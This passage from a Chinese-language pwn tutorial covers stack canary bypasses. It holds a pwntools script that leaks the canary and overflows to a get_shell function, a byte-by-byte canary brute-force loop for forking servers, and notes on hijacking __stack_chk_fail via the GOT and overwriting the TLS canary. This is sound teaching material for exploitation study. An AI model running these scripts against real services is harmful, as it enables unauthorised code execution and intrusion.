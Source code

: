 ```bash
io.sendline(payload)

io.recvuntil(b"A"*100)
Canary = u32(io.recv(4))-0xa
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = b"\x90"*100+p32(Canary)+b"\x90"*12+p32(get_shell)
io.send(payload)

io.interactive()
```

同时其中还有一个格式化字符串漏洞，因为 canary 是加载到栈中的，那么通过格式化字符串的%p参数利用可以泄露出栈中的 canary 值

#### 爆破 Canary

对于 Canary，虽然每次进程重启后的 Canary 不同 (相比 GS，GS 重启后是相同的)，但是同一个进程中的不同线程的 Canary 是相同的，并且 通过 fork 函数创建的子进程的 Canary 也是相同的，因为 fork 函数会直接拷贝父进程的内存。我们可以利用这样的特点，彻底逐个字节将 Canary 爆破出来。这是爆破的 Python 代码：

```bash
print "[+] Brute forcing stack canary "

start = len(p)
stop = len(p)+8

while len(p) < stop:
   for i in xrange(0,256):
      res = send2server(p + chr(i))

      if res != "":
         p = p + chr(i)
         #print "\t[+] Byte found 0x%02x" % i
         break

      if i == 255:
         print "[-] Exploit failed"
         sys.exit(-1)


canary = p[stop:start-1:-1].encode("hex")
print "   [+] SSP value is 0x%s" % canary
```

#### 劫持 \_\_stack\_chk\_fail 函数

Canary 匹配失败后会进入到 `__stack_chk_fail` 函数，`__stack_chk_fail` 函数是一个普通的延迟绑定函数，可以通过修改其 GOT 表劫持这个函数从而使匹配失败后能够劫持其运行从而实现攻击。

#### 覆盖 TLS 中储存的 Canary 值

Canary 是储存在 TLS 结构体中的，在函数返回前会使用这个值进行对比。当溢出尺寸较大时，可以同时覆盖栈上储存的 Canary 和 TLS 储存的 Canary 实现绕过。

可以参考这篇文章：[TLS\_bypass\_Canary](https://xz.aliyun.com/t/13074?time__1311=mqmxnDBDuDcAiQQDsD7mN0%3DWG%3Dn5%2BDkkTrrD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fnode%2F23)

